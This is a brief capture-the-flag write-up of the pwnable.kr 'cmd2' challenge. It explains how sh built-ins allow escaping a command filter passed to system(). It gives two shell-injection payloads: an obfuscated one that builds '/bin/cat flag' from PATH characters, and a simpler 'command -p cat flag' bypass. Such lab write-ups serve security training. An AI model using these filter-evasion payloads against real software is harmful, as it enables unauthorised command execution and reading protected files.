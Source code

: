 # pwnablekr cmd2

This is my solution. It's really crazy, and I'm a bit too lazy to explain it/barely 
know what I was thinking when I crafted this masterpiece. But, basically the idea is
you need a '/' (e.g. ./cat flag) in order to call a program without a path. So, have to think of some
clever way to get a '/' into a string.

The overall idea to this challenge is to leverage `sh` built-ins. Notice that I say `sh` and
not `bash`, that's because the program is doing a `system(...)` API call, which is actually a wrapper around
`exec("sh -c ...")`. There are major differences between the `sh` shell, and the `bash` shell.
 
```
$ ./cmd2 "\$(printf '%c%c%c%c%c%c%c%c %c%c%c%c%c%c' \$(set \$(printf '%c%c%c%c%c' \$ P A T H); 
set \$(eval echo \$1); echo \${1%no_command_execution_until_you_become_a_hacker}) b i n \$(set 
\$(printf '%c%c%c%c%c' \$ P A T H); set \$(eval echo \$1); echo 
\${1%no_command_execution_until_you_become_a_hacker}) c a t . \$(set \$(printf '%c%c%c%c%c' \$ 
P A T H); set \$(eval echo \$1); echo \${1%no_command_execution_until_you_become_a_hacker}) f l 
a g)"
```

There's a much simpler, almost cheating solution to this. Read the man page for sh built-in to 
understand it :)

```
$ ./cmd2 command -p cat flag
```

There's also a medium solution that somebody showed me, but I leave that as an open problem for the
reader :).



